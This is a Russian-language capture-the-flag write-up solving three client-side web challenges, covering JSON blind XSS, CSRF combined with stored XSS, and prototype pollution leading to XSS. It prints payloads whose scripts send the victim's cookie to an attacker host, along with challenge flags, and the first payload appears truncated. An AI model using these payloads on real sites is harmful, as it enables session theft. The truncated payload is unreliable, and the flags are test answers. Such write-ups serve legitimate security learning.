

## CLIENT SIDE WRITEUP

### 1. AI Coder V3

Зайдя на сайт, видим форму отправки запроса.
Сообщения отправляются POST запросом в формате application/json на /api/messages.
А в js скрипте увидим ссылку на /api/secret, который все еще доступен на сайте, но в нем проверяется пользователь, отправивший запрос.

Похоже, что в запросе json `<script>` фильтруется, и его применить не получается.
Поискав в интернете, я нашел пэйлоад для json blind xss, который выглядел следующим образом:
`#>`

Подставив в качестве url сервер принимающий запросы, запрос сработал.
Внедрим js код, исполняющийся при ошибке, и получим флаг:

```
#>
```

`deteact{f6227606ad71f45d47112d3e5fabf15d}`

### 2. The Developer's blog

При изучении сайта, в комментариях к постам из dev blog можно найти xss, но написанные комментарии сохраняются
в cookie и недоступны другим пользователям. Чтобы опубликовать комментарий, необходимо отправить POST запрос на заданный адрес поста.

На сайте можно оставить feedback, передав ссылку на какую-то часть сайта, благо Сергей не проверяет куда ведет ссылка, и просто тыкает на нее, поэтому мы можем туда передать что угодно.

Можно украсть cookie Сергея, заставив его опубликовать комментарий с помощью csrf, а комментарий будет содержать в себе xss, который отправит нам cookie.

```
<form id="cookie" method="POST" action="http://79.143.25.24:1338/post/1">
    <input type="text" name="name" value="Sergey">
    <input type="text" name="text" value="<script>window.open('http://myip:9001/?flag='+document.cookie)</script>">
<form>
<script>
    document.getElementById('cookie').submit();
</script>
```

Передав в feedback ссылку на html страницу сверху, получим флаг

```
Request Details  
GET	https://myip/?flag=deteact{5dbc68e9f2c722747e9bb2aa7b33e658}
Host	79.143.25.24
```
`deteact{5dbc68e9f2c722747e9bb2aa7b33e658}`


### 3. Clean Work

Изучая сайт увидим, что в форму contact.php можно передать любую ссылку, которая будет открыта Сергеем.
А в coming-soon.html есть некий таймер, до какой-то новой активности.

Изучив код, можно понять, что он срабатывает, принимая в себя дату открытия и интервал, с которым он обновляется, но обойдя таймер получаем, что event еще не доступен.



Изучив код, видим что наш ввод (параметры) парсятся с помощью JSON.parse, и после объединяются с классом settings с помощью extend.

```
$(document).ready(function() {
var search = location.search.substring(1);
var params = JSON.parse('{"' + decodeURI(search).replace(/&/g, '","').replace(/=/g,'":"') + '"}');
$(".countdown").countdown(params);
});
```
Так как started закомменчено, event никогда не начнется, но можно добавить эту переменную с помощью Prototype Pollution

```
unknown_event = {
      'body': "Welcome to...",
      'statistics': 'on',
      'utm_token': 'Qi1eEfA3osd29Z8dj'
      //'started': false,
      //'name': ''
    };

    //array of custom settings
    var settings = {
      'date': '8 december 2023 12:00:00',
      'interval': 1000
    };

    $.extend(true, settings, options);
  ```

Поле $name выводится на экран не фильтруясь, а значит мы можем эксплуатрировать в нем xss.

Получаем следующий payload, открыв который, срабатывает xss, и на вебхук делается запрос, содержащий cookie.

 `
 http://45.131.97.54:48081/coming-soon.html?__proto__":{"name":"hello<script>window.open('http://myip:45333?'+document.cookie)</script>","started":"true"},"date":8,"text"="
`

Передадим этот пэйлоад в contact.php получим флаг.

`deteact{c2bebfbe20ecc889657caa287e20d28f}`
